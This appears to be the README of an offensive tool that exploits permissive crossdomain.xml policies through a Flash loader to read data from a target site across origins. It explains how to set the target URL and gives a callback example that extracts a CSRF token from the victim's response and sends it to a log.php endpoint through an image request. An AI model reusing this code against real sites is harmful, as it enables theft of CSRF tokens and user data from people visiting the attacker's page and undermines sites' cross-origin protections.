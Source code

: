 # crossdomain
Crossdomain exploiting - exploiting insecure crossdomain.xml files.

### How to use this?

In crossdomain.js, edit the following line: 
```
crossdomain.setTarget('http://www.olivierbeg.nl/');
```

### How do I handle the data?

In `crossdomain.js` there is a callback function, this function receives all the content sent through the flash file that loads the data from the remote website. To exploit it further you can change the crossdomain.callback function to handle the data.

######As preview:
```
'callback': function (data) {
  console.log(data);
}
```

Can become something like:

```
'callback': function (data) {
  var response = data.match('csrf value=(.*)>');
  if(response != null) {
    var img = document.createElement('img');
    img.src = 'log.php?response=' + escape(JSON.parse(response));
    
    document.getElementById('dump').appendChild(img);
  }
}
```

